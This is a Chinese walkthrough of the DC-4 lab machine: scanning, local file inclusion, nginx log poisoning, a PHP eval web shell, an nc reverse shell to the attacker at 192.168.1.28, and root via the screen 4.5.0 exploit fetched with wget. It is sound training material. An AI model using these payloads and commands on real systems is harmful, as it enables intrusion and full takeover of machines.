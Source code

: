 
# 0x00环境

攻击机：kali（192.168.1.28）

靶机：DC-4（192.168.1.13）


# 0x01实战


## 端口扫描

```
nmap -sV -A -p- 192.168.1.13
```

![image-20220111145130914.png](../../_img\06-靶场实践/1652256425733-57ef87bc-e21c-43c6-b83e-380936cec577.png)

开放了80端口HTTP服务


## 目录扫描

![image-20220111145325177.png](../../_img\06-靶场实践/1652256433512-75de8e9d-7b49-4793-bb94-612948f3f679.png)

找到一个特殊的页面footer.php内容会随着页面刷新而改变

![image-20220111145505984.png](../../_img\06-靶场实践/1652256437596-7bc83e99-b9f4-41d0-8702-43269fd3f11e.png)

![image-20220111145513169.png](../../_img\06-靶场实践/1652256440467-d0f2e0c2-ab29-4542-b257-ec803bbfc953.png)


## 漏洞发现

在浏览80端口HTTP服务的时候发现在Contact页面留言提交后显示的页面底部内容会随着页面的刷新而改变

![image-20220111145734632.png](../../_img\06-靶场实践/1652256443937-93531657-d2f7-4a90-85bb-e2b3cd967332.png)

![image-20220111145750479.png](../../_img\06-靶场实践/1652256447546-91dfc7f0-3411-4a6d-bcfe-0bb870988201.png)

这种情况与我们前面发现的footer.php页面相同，想到可能是hankyou.php页面包含了footer.php页面，存在文件包含漏洞

访问/etc/passwd文件测试是否存在文件包含漏洞

![image-20220111150248872.png](../../_img\06-靶场实践/1652256451650-aa002bfb-6b9d-4a37-b9e5-9bfda52321d8.png)

存在文件包含漏洞


## 漏洞利用

通过前面的端口扫描我们可以知道靶机的环境是使用nginx搭建的，而nginx在网站上的每一步操作都将会被写入日志文件log(/var/log/nginx/access.log)内，因此我们可以通过log来拿 shell

使用burpsuite抓包修改请求，写入phpinfo()测试是否可以包含成功

![image-20220111151336326.png](../../_img\06-靶场实践/1652256455801-7c57aaee-b94f-46cd-b1ec-1edd4243f957.png)

成功

![image-20220111151619526.png](../../_img\06-靶场实践/1652256459471-da82337b-f449-4e78-9541-194326d6bda2.png)

上传一句话木马

```
<?php @eval($_POST['XMTX']);?>
```

![image-20220111153318647.png](../../_img\06-靶场实践/1652256463083-d12e17a2-9ef4-4e59-84b8-3b2b53bb5aaa.png)

使用蚁剑链接

![image-20220111153522272.png](../../_img\06-靶场实践/1652256466733-d3443dc5-fa4c-443b-b7d8-be675fb96862.png)


## 反弹shell

创建监听

```
nc -vnlp 4444
```

![image-20220111153832261.png](../../_img\06-靶场实践/1652256471287-7b6f529c-54fd-42dd-9f76-057ce1883dcd.png)

使用nc反弹shell到攻击机

```
nc 192.168.1.28 4444 -e /bin/bash
```

![image-20220111153927518.png](../../_img\06-靶场实践/1652256474597-7198f713-9f6d-4ff5-904e-23c32ee6f62b.png)

成功反弹shell

![image-20220111154045297.png](../../_img\06-靶场实践/1652256477935-2b9c9986-02f8-4cfe-a8a0-2214daf91c40.png)

查找具有root权限的命令

```
find / -perm -u=s -type f 2>/dev/null
```

![image-20220111154138860.png](../../_img\06-靶场实践/1652256481763-69566178-3f58-4984-ad53-9e5bff5ce1f5.png)

可以看到存在screen 4.5.0，在互漏洞库中找到[Screen 4.5.0 存在本地权限提升漏洞](https://www.exploit-db.com/exploits/41154)

![image-20220111154558491.png](../../_img\06-靶场实践/1652256485066-81eed817-acd5-4d21-98db-858209567dd8.png)


## 提权

**说明：在这一部分网上的很多教程都是使用kali上的提权脚本，然后说脚本有问题将提权脚本拆分为三份进行提权，DC官网也是说脚本有问题，千篇一律。在这里我是使用 **[**https://www.exploit-db.com**](https://www.exploit-db.com)** 上的提权脚本，并没有什么问题。之后我对比两个脚本，内容都是一样的，我又搭建新靶场使用kali上的提权脚本也能成功提权。凡事要多思考，照着别人的步骤来对自己有什么提升呢？**

将脚本文件下载到攻击机，通过vi查看发现格式为windows的dos格式<br />![image-20220111162250058.png](../../_img\06-靶场实践/1652256562234-b97309dd-3030-4596-a4f4-9ce4191bc5bf.png)


将脚本文件转换为linux格式
```
dos2unix 41154.sh
```
![image-20220111162330818.png](../../_img\06-靶场实践/1652256566052-4d1af8c0-b1c7-4446-a294-31ca77b29e31.png)

攻击机开启HTTP服务
```
python3 -m http.server
```
![image-20220111160846214.png](../../_img\06-靶场实践/1652256489619-cba09f93-8139-4f81-a509-90b2b3695f47.png)


下载脚本到靶机的tmp目录下（因为tmp权限为777）（也可以使用前面的蚁剑上传提权脚本）
```
wget http://192.168.1.28:8000/41154.sh
```
![image-20220111161013441.png](../../_img\06-靶场实践/1652256538282-13be2f18-b8c7-44af-8abe-fe5a54b6fb29.png)


赋予脚本执行权限并执行，成功得到root权限<br />![image-20220111162553225.png](../../_img\06-靶场实践/1652256568936-b35f4e40-17b9-47ff-a693-49efe2bdcadb.png)


## final-flag

在root根目录下找到flag文件

![image-20220111162705093.png](../../_img\06-靶场实践/1652256574804-5a21f992-a662-4576-8cad-cb565482766b.png)
